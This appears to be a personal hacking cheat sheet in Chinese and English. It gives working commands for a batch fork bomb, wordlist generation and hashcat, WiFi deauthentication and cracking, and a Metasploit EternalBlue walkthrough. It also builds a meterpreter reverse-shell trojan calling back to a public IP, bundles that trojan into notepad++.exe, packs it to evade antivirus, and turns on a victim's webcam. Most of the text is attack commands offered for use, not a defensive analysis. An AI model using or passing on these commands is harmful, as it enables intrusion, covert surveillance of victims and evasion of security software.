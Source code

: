 # 死机脚本
bat
```
%0| %0|
```

# crunch 
```
crunch <min-len> <max-len> [<charset string>] [options]
crunch 密码最小长度 密码最大长度 [字符集] [命令选项] 

crunch 6 6 0123456789 -o start  

-b 1mb 按大小分割字典文件。
-c 100 按行数分割字典文件
-d 2 # 同意字符能够连贯出现的数量。比如11X11X

	crunch 6 6 0123456789 -d 2 # 生成6位数，由0到9位数字组成的，同一字符最多连续出现2次的字典。 

-f /usr/share/crunch/charset.lst lalpha-sv # 使用定义好的字符集

	crunch 4 4 -f /usr/share/crunch/charset.lst numeric -o 1.txt # 使用数字的字符集去生成4位数的字典。

-p 1234567890 
	无重复字符，注意-p必须是最后一个参数，最大最小字符失效但必须有，与-s、参数不兼容。
	crunch 1 1 -p abc # 生成abc的组合的字典 
	
-s 999 # 指定起始点(start)
	crunch 5 5 0123456789 -s 99990 # 生成的字典中是以99990为初始点的。 
	
-q 1.txt # 读取文件中每行内容作为基本字符，以排列组合的方式生成字典
	crunch 1 1 -q 1.txt # 以文件中每行内容作为基本字符，以排列组合的方式生成字典，最大最小字符失效但必须有 
```


#  hashcat使用方法
官网，下载编译好的版本
在cmd下用命令执行

ex：
hashcat -m 22000 28004_1684405214.hc22000 english.txt

warning 转换为支持的模式，官网提供工具，或者自己想办法转化
28004_1684405214.hc22000

![参考](http://www.xuji.pro/%E7%94%A8hashcat%E6%AF%8F%E7%A7%92%E8%AE%A1%E7%AE%971-4%E4%BA%BF%E4%B8%AA%E5%AF%86%E7%A0%81%EF%BC%8C%E7%A0%B4%E8%A7%A3%E9%9A%94%E5%A3%81wifi%E5%AF%86%E7%A0%81/)



# airmon-ng
airmon-ng start wlan0
ifconfig
airodump-ng wlan0mon
airodump-ng -w getter -c 2 --bssid  00:EF:34:DE:B2:12  wlan0mon -ignore-nefative-oneaa

//crack
aireplay-ng -0 2 -a  00:EF:34:DE:B2:12  -c DE:BD:54:B0:30:A9 wlan0mon
aircrack-ng -w /usr/share/wordlists/rockyou.txt (.ivs|.cap)

# msf
## the example of ms17010 :eternal blue
1. first use `msfconsole` to open msf
2. you choose an virus
we use `ms17_010` as an example ,you can get three kind of ms17010
```
 #Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
```
3. you can use
`
use 0 
or use xploit/windows/smb/ms17_010_eternalblue
`
to open this modular:模块
4. then you need configure this modular 
`show options`
you can see:
```
odule options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasp
                                             loit-framework/wiki/Using-Metasploit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication.
                                              Only affects Windows Server 2008 R2, Windows 7, Windows
                                              Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Onl
                                             y affects Windows Server 2008 R2, Windows 7, Windows Emb
                                             edded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects
                                             Windows Server 2008 R2, Windows 7, Windows Embedded Stan
                                             dard 7 target machines.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.105    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

```
the required that marked with yes is what you must configure
but most of them have a default value so you needn't configure it 

5. configure
`set RHOSTS 192.168.1.133`
or for a section 
`set RHOSTS 192.168.0.0-254`

6. run 
`run`

7. if the aim pc have loop hole 
you can get :
`meterpreter` as a new console
you get the windows cmd you want
you can use `help` in this console to get information
use the instruction in help you can control one's camera or mrcrophone


# msfvenom 远程木马 基础
msfconsole
use exploit/multi/handler
options

	查看设置
	or show options
set payload windows/x64/meterpreter/reverse_tcp
set lhost 8.134.64.48
set lport 444
run
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=8.134.64.48 lport=444 -f exe -o msf.exe

	ps: you can choose different options to diferent system::windows osx or android ,also diferent executable file::exe or apk
meterpreter

	means that you have controled target computer

## 例子：开启摄像头
webcam_list 查看是否有摄像头
webcam_stream 打开摄像头查看视频7


只能在内网环境下
1. 如果你要外网渗透的话，要反向代理或者是配置内网穿透
2. 或者用有外网ip的服务器



# 远程木马 绕过杀毒软件
## 捆绑
msfvenom -p windows/x64/meterpreter/reverse_top lhost=192.168.0.136 lport=9999 -f exe -x notepad++.exe -o notepad++2.exe

## themida
套壳 之后免火绒查杀

# seeker 苹果定位



